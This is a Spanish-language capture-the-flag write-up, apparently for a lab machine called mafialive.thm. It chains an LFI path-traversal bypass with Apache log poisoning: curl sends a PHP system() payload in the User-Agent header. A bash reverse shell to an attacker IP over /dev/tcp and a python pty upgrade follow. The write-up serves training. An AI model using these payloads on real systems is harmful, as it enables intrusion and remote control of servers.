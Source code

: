 

Podemos ver la pagina tal cual poniendo la IP que nos dan, podemos ver que hay una dirección de correo, después de investigar por código fuente, intentar sacar directorios ocultos con **[[GOBUSTER]]** sin éxito.


![[Pasted image 20240606183734.png]]

Después de ver un correo en la pagina web (amarillo), cogeremos e iremos a la ruta`` /etc/hosts`` para hacer redireccionamiento DNS, por si nos devuelve otra información.

![[Pasted image 20240606184701.png]]

Pondremos primero la IP de la maquina y después el dominio para enlazar ip con dominio si no hacemos esto nos dará un fallo.

Despues de hacerlo, podemos ver que nos funciona, 

![[Pasted image 20240606184733.png]]

Tenemos la primera flag, aqui espezaremos a descubrir nuevos directorios.


Podemos ver que nos saca un archivo ``/test.php`` 

![[Pasted image 20240606185447.png]]

Podemos ver que es un LFI, ahora habra que explotarlo..

![[Pasted image 20240606190046.png]]


Si intentamos hacer un Path Traversal desde view=/.. esta capado y no nos deja pero si lo hacemos quitando el php funcionara

![[Pasted image 20240613233524.png]]

Siempre que sea haciendo .././.././.././.././ ya que de la otra forma esta capado 

``CTRL + U`` 

![[Pasted image 20240613233616.png]]

Ahora que tenemos acceso a /var/log/apache2/access.log podremos lanzar la vulnerabilidad llamada **log poisoning** a través de un curl y un codigo php

![[Pasted image 20240614000021.png]]

Vemos que nos devuelve la solicitud y después vamos al ``access.log`` y vemos la respuesta del comando ``whoami`` 

Actualizamos y vemos :

![[Pasted image 20240614000136.png]]
``
10.10.39.71 - - [14/Jun/2024:03:27:58 +0530] "GET /test.php?view=/var/www/html/development_testing/.././.././.././.././.././.././.././var/log/apache2/access.log HTTP/1.1" 200 12191 "-" "``www-data````


También valdría con este comando :

![[Pasted image 20240614000617.png]]
curl -s -X GET 'http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././var/log/apache2/access.log' -H "User-Agent: <?php system ('whoami'); ?>"

Después ejecutaremos la reverse shell ya que tenemos ejecución de comandos a través del User-Agent

Primero pondremos la terminar nuestra en escucha por el puerto que queramos, en este caso el 443 ya que es mas fácil que el firewall lo permita y uno que no este ocupado

![[Pasted image 20240618232248.png]]

Después de estar en escucha, iremos a https://www.revshells.com/ y buscaremos una revershell en este caso cogemos la de bash

``sh -i >& /dev/tcp/10.10.252.109/443 0>&1``


Ejecutamos el comando donde nos deja hacer la ejecución de comandos:

>curl -s -X GET 'http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././var/log/apache2/access.log' -H "User-Agent: <?php system ('sh -i >& /dev/tcp/10.10.62.176/443 0>&1'); ?>"

(Tenemos que poner la IP atacante)
Actualizamos la pagina y se supone que ya tiene que haberse creado la shell inversa, ya estaremos dentro de la maquina 

![[Pasted image 20240618232332.png]]


Despues tendremos que hacer la consola interactiva, con python3 podremos ponerla:

![[Pasted image 20240618232755.png]]

> python3 -c 'import pty; pty.spawn("/bin/bash")'



Podemos ver que ya es interactiva, en cambio antes no

![[Pasted image 20240618232707.png]]

![[Pasted image 20240619001214.png]]


![[Pasted image 20240619001151.png]]




![[Pasted image 20240619001436.png]]


![[Pasted image 20240619001527.png]]


![[Pasted image 20240619001558.png]]

![[Pasted image 20240619001623.png]]

![[Pasted image 20240619001710.png]]


PATH HAJACKING
